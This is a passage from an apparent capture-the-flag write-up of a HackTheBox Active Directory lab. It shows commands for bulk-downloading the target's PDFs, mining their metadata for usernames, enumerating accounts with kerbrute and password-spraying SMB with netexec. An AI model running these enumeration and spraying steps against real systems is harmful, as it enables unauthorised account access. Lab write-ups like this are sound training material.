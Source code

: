 next I ran oneline script to download all this pdf files

```
for i in $(cat valided.txt); do curl -s -O "http://intelligence.htb/documents/$i"; done
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918191531.png)

Searching google for best tool to convert pdf to txt I found pdftotext, install it with
```
sudo apt-get install poppler-utils
```

and run

```
for i in $(ls); do pdftotext $i; done
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918191623.png)

Now we can grep for sensitive information in all files.

```
grep -Ei (user|pass|pwd) *.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918192051.png)

Funny checked all files and didn't find anything new :D
Then I ran exiftool on this file and in creator I found username, let's do it for all files.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918192034.png)

and I got bunch of differente users. Filtered them and make a list, I will only provide last command to not waste your time

```
exiftool *.pdf | grep Creator | awk '{print $3}' > usernames.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918192352.png)

## Gaining Access

Now what, we need to check for valid users with kerbrute.

```
kerbrute userenum -d intelligence.htb --dc 10.10.10.248 usernames.txt -o validusers.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918192658.png)

all 84 users (maybe some duplicated but doesn't matter) are valid, now let's try password that we found 

```
nxc smb 10.10.10.248 -u usernames.txt -p 'NewIntelligenceCorpUser9876' --continue-on-succes
```
